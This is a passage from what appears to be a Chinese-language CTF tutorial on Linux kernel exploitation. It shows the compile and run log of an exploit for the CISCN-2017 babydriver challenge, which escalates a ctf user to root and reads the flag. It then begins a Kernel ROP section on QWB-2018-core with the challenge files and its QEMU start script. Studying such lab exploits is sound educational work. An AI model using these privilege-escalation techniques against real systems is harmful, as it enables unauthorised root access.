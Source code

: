 因为文件系统中没有 Library，需要静态编译才能正常执行。然后打包新的文件系统后运行 `boot.sh`：

```bash
$ make
cc -static    exp.c   -o exp
$ file ./exp
./exp: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=8af26f6763d0d44db98089ae847f6104a4054c93, not stripped
$ cd fs/ && find . | cpio -o --format=newc > ../rootfs.cpio
7349 blocks
$ cd .. && sudo ./boot.sh
```

使用 lsmod 可以查看加载模块的基地址：

```bash
/ $ lsmod
babydriver 16384 0 - Live 0xffffffffc0000000 (OE)
/ $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
/ $ cat flag
cat: can't open 'flag': Permission denied
/ $ /tmp/exp
[   23.769095] device open
[   23.773231] device open
[   23.775415] alloc done
[   23.784434] device release
[+] get root!
/ # id
uid=0(root) gid=0(root) groups=1000(ctf)
/ # cat flag
flag{this_is_a_flag}
/ #
```

> [P4nda](http://p4nda.top/2018/10/11/ciscn-2017-babydriver/) 以及 [Anceity](https://www.anquanke.com/post/id/86490) 两位大佬都提供了 ROP 的做法。

# Kernel ROP（QWB-2018-core）

题目给了四个文件，vmlinux 即为 bzImage 未解压缩的版本（可以用 [`extract-vmlinux`](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) 来对 `bzImage` 解压缩）。`start.sh` 是一个启动脚本，其中可以看到开了 `kalsr`：

```bash
$ tar -zxvf core_give.tar.gz
./give_to_player/
./give_to_player/bzImage
./give_to_player/vmlinux
./give_to_player/core.cpio
./give_to_player/start.sh
$ bat start.sh
───────┬────────────────────────────────────────────────────────────────────────
       │ File: start.sh
───────┼────────────────────────────────────────────────────────────────────────
   1   │ qemu-system-x86_64 \
   2   │ -m 64M \
   3   │ -kernel ./bzImage \
   4   │ -initrd  ./core.cpio \
   5   │ -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr"
       │  \
   6   │ -s  \
   7   │ -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
   8   │ -nographic  \
```

